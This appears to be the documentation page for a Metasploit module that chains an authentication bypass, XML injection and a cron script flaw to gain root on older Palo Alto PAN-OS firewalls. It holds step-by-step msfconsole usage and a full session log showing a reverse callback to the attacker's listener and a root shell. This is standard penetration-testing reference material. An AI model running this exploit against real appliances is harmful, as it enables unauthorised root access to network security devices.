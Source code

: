 ## Description

This module exploits a chain of vulnerabilities in Palo Alto Networks products running
PAN-OS versions prior to 6.1.19, 7.0.19, 7.1.14, and 8.0.6. This chain starts by using
an authentication bypass flaw to to exploit an XML injection issue, which is then
abused to create an arbitrary directory, and finally gains root code execution by
exploiting a vulnerable cron script. This module uses an initial reverse TLS callback
to stage arbitrary payloads on the target appliance. The cron job used for the final
payload runs every 15 minutes by default and exploitation can take up to 20 minutes.

## Vulnerable Application

This exploit was specifically written against PAN-OS 7.1.0 running in a QEMU (kvm) virtual machine.
This VM is not generally available, but the specific disk image used was `PA-VM-KVM-7.1.0.qcow2`.


## Verification Steps

1. Start msfconsole
2. ```use exploit/linux/http/panos_readsessionvars```
3. ```set RHOST [IP]```
4. ```exploit```
5. You should get a session (eventually)

## Options

**CBHOST** The callback listener address if the default is not accurate (port forwarding, etc)

**CBPORT** The callback listener port


## Scenarios

```
msf exploit(linux/http/panos_readsessionvars) > exploit

[*] Started reverse TCP handler on 192.168.122.1:4444
[*] Creating our corrupted session ID...
[*] Verifying that we can access the debug console with our corrupted session ID...
[*] Calling Administrator.get to create directory under /opt/pancfg/mgmt/logdb/config/1/...
[*] Waiting up to 20 minutes for the cronjob to fire and execute...
[*] Waiting for a session, 1200 seconds left...
[*] Waiting for a session, 1169 seconds left...
[*] Waiting for a session, 1138 seconds left...
[*] Waiting for a session, 1107 seconds left...
[*] Waiting for a session, 1076 seconds left...
[*] Waiting for a session, 1044 seconds left...
[*] Waiting for a session, 1013 seconds left...
[*] Waiting for a session, 982 seconds left...
[*] Waiting for a session, 951 seconds left...
[*] Waiting for a session, 920 seconds left...
[+] Sending payload of 67 bytes to 192.168.122.98:39499...
[*] Command shell session 7 opened (192.168.122.1:4444 -> 192.168.122.98:44858) at 2018-05-05 15:45:02 -0500
[!] Remember to manually purge the base directory: 'rm -rf /opt/pancfg/mgmt/logdb/config/1/'
[*] Shutting down payload stager listener...

id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
